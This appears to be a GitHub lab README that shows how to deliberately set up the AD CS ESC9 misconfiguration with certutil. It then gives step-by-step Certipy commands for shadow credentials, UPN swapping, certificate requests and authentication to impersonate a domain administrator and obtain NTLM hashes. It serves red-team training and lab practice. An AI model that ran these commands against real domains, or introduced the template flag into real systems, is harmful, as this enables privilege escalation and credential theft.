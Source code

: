 # AD CS ESC9 - A guide on making your AD CS vulnerable to a cool attack

AD CS ESC9 is a cool attack that takes advantage of a certificate template having the no Security Extension flag set on msPKI-EnrollmentFlag. This enables an attacker with write privileges and control of an account with enrollment rights over the vulnerable certificate to change the UPN of the target account to an arbitrary user, like a domain administrator. Once set, the attacker can request a certificate using the vulnerable template with the target account and retrieve a certificate for the UPN the attacker specified. This certificate can then be used to retrieve an NTLM hash for Pass-the-Hash or offline cracking. This misconfiguration may arise from taking improper actions in KB5014754 guidance.

This is an uncommon misconfiguration, but AD CS misconfigurations like ESC1, 3, 4, 8, and 11 are extremely common. This one is just flashy and allows Red Teams to pivot to other accounts and escalate privileges quietly. 

## Dependecies
+ Windows updates on servers May 10, 2022 and September 10, 2025
+ Cetificate Authority Role on Windows Server 2019+
+ user1 with generic write over user2 and an user3 to go for
+ Certipy-AD.
+ The need for speed

## Steps to create the misconfiguration
1. Give user1 generic write of user2
2. Pick a Certificate Template like ```DomainControllerAuthentication```
3. Give user2  enrollment rights. (This account is going to be used to request a certificate for other users.)
4. Set ```CT_FLAG_NO_SECURITY_EXTENSION``` flag in ```msPKI-EnrollmentFlag```
  + ```certutil -dstemplate DomainControllerAuthentication msPKI-Enrollment-Flag +0x00080000```
6. Ensure a user has write privileges over a user with enrollment rights to the vulnerable template.
7. Money.

## Steps to exploit the misconfiguration
1. Retrieve user2's hash with a shadow credentials attack.
   
```certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2```

3. Change the UPN of user2 to an arbitrary user like a Domain Administrator, but do not specify the domain.

```certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3```

4. Request a certificate for user2 using the vulnerable template.

```certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'```

5. Change the UPN of user2 back to the original. 

```certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"```

6. Authenticate with the new certificate.

```certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"```

7. Cash out

## Resources
[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#no-security-extension-esc9)
